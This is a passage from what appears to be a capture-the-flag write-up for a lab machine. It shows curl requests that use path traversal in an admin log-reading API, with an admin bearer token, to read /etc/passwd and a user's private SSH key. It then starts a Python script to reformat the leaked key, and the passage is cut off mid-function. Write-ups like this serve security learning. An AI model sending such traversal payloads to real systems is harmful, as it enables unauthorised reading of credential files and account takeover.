 <br/> 
<img src="/img/instant_screenshots/Pasted image 20241013201800.png" alt="1" style="width:700px; height:auto;">
<br/>

Testing for `LFI`. 

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../../../../../../../../../etc/passwd" -H  "Authorization:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

We get a hit.

<br/> 
<img src="/img/instant_screenshots/Pasted image 20241013201850.png" alt="1" style="width:700px; height:auto;">
<br/>

Leaking the `private SSH key` of the user.

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../../../../../../../../../home/shirohige/.ssh/id_rsa" -H  "Authorization:eyJhbGciOiJIUzI1NiIsIn
R5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

We get the key but in a bad format.  

<br/> 
<img src="/img/instant_screenshots/Pasted image 20241013201956.png" alt="1" style="width:700px; height:auto;">
<br/>

Using this `python` script to reformat it correctly.  

```python
def format_rsa_key(input_file, output_file):
    try:
      
        with open(input_file, 'r') as infile:
            content = infile.read()

        
        cleaned_content = content.replace('\\n', '\n').replace('","', '').replace('"', '')

      
        lines = cleaned_content.strip().splitlines()
        if lines[0] != "-----BEGIN RSA PRIVATE KEY-----":
            lines.insert(0, "-----BEGIN RSA PRIVATE KEY-----")
```